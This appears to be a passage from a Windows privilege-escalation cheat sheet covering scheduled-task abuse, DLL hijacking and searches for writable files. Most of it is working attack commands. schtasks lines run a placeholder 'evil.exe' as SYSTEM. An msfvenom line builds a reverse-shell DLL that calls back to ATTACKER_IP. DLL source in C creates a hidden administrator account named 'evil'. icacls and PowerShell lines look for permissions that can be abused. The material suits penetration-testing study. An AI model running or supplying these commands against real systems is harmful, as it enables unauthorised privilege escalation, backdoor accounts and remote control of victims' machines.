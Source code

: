 ### Exploiting Scheduled Tasks
```powershell
# Create a new task (requires privileges)
schtasks /create /tn "MyTask" /tr "C:\path\to\evil.exe" /sc ONCE /st 00:00 /ru "SYSTEM"
schtasks /run /tn "MyTask"

# Modify existing task
schtasks /change /tn "ExistingTask" /tr "C:\path\to\evil.exe"
```

## DLL Hijacking

### Find Potential DLL Hijacking Opportunities
```powershell
# Process Monitor to identify missing DLLs
# Look for "NAME NOT FOUND" results for DLL loads

# Check for DLL search order issues
# Create malicious DLL in the application directory
```

### DLL Creation
```powershell
# Malicious DLL example
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f dll -o evil.dll

# C code for DLL
/*
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    if (fdwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /c net user evil password123 /add && net localgroup administrators evil /add");
    }
    return TRUE;
}
*/
```

## File Permissions Vulnerabilities

### Check for Writable Directories and Files
```powershell
# Important system directories
icacls "C:\Program Files" /T | findstr /i "(F) (M) (W) :\"
icacls "C:\Program Files (x86)" /T | findstr /i "(F) (M) (W) :\"
icacls "C:\Windows" /T | findstr /i "(F) (M) (W) Everyone"

# Check for writeable executables
Get-ChildItem "C:\Program Files" -Recurse -ErrorAction SilentlyContinue | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
